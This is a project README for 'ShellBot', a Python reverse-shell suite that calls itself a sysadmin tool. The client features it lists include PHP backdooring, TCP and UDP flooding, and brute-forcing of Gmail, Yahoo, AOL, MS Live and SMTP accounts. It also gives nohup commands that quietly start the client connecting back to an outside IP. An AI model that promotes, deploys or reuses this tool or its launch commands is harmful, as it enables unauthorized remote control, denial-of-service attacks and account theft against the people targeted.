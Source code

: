 # ShellBot

[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot.svg?type=shield)](https://app.fossa.com/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot?ref=badge_shield)

##### An advanced reverse shell written in Python3.

---

ShellBot is a cross-platform Remote Shell Suite where the Server can be managed
by 1 Controller at a time.

A server can accept several clients at once, and relay a chosen client's shell
to the controller.

This makes it easy for an SysAdmin to manage several computers with minimal
setup in an internal network.

The ShellBot suite is designed in such a way that it will not stop till a
connection is achieved. All errors are handled internally and in case of a
crash, the program automatically restarts.

---

#### Features:

##### Server:

1. Can handle multiple connections all at once.
1. The Controller’s connection requires a plain text password, it’s not the best
   security, but at-least it is better than nothing. Will be improved on in
   future revisions.
1. Kicks the Controller after 5 mins. (As the Server only accepts 1 controller
   at a time). _TODO: Make it 5 minutes after inactivity._

##### Client:

1. Infected PHP Backdooring Function. <i>(Linux Only)</i>
1. TCP Flood.
1. UDP Flood.
1. Gmail Bruteforcer. (Workaround Gmail's SMTP login)
1. MS Live Bruteforcer.
1. Yahoo Bruteforcer.
1. AOL Bruteforce.
1. Custome SMTP Bruteforcer. If found, the password will be saved as
   "password.txt" on the client.
1. OTA Updating.
1. Hardened Shell: Handles No Output, Wrong, Interactive and Infinite commands
   will result in losing the shell.
1. Can handle multiple commands separated by semi-colon (;).
1. Never closes and is always trying to connect to the Server.
1. Can handle almost any non-interactive command properly.
1. Uses very less resources.
1. Can be packaged into executables with tools like pyInstaller.

##### Controller:

1. Handles `KeyboardInterrupts`, empty commands, etc. perfectly.
1. Easy user interface.

**Note:** When trying to start the client through SSH, Terminal or any other
interactive shell, it is advised to start the client in another process. This
can be done in Linux with `nohup`.

###### Example:

```sh
nohup python3 client.py 15.48.158.15 1567 > /dev/null &

nohup python3 client.py 15.48.158.15 1567 > /dev/null 2>&1 &
```

## License

[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot.svg?type=large)](https://app.fossa.com/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot?ref=badge_large)
